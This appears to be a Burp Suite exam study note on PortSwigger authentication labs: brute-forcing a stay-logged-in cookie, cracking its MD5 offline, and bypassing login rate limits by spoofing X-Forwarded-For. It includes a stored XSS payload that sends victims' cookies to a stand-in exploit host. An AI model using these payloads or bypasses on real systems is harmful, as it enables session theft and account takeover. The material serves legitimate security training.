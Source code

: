 ### Stay-Logged-in  

>Login option with a stay-logged-in check-box result in Cookie value containing the password of the user logged in and is vulnerable to brute-forcing.  

![stay-logged-in](images/stay-logged-in.png)  

>The exploit steps below plus the Intruder Payload processing rules in order and including the GREP option in sequence before starting the attack.  
  
1. Logout as current user.  
2. Send the most recent GET /my-account request to Burp Intruder.  
3. Select the cookie: ```stay-logged-in``` as injection position.  
4. Hash: ```MD5```  
5. Add prefix: ```carlos:```  
6. Encode: ```Base64-encode```  
7. Add **GREP** under settings tab, to check for the string in the response ```Update email``` indicating successfully logged in attack.  
  
![brute](images/brute.png)  

[PortSwigger Lab: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)  
  
### Stay-logged-in Offline Crack  
  
>The blog application comment function is vulnerable to [stored XSS](#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.  

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```  
  
>Base64 decode the ```stay-logged-in``` cookie value and use an online **MD5** hash crack station database.  

![stay-logged-in Offline](images/stay-logged-in-offline.png)  

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)  

### Brute Force Protected Login  

>***Identified*** brute force protection on login when back-end enforce 30 minute ban, resulting in **IP blocked** after too many invalid login attempts. Testing ```X-Forwarded-For:``` header result in bypass of brute force protection. Observing the response time with long invalid password, mean we can use **Pitchfork** technique to ***identify*** first valid usernames with random long password and then rerun intruder with **Pitchfork**, set each payload position attack iterates through all sets simultaneously.  

[Burp Lab Username, Password and directory fuzzing Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  
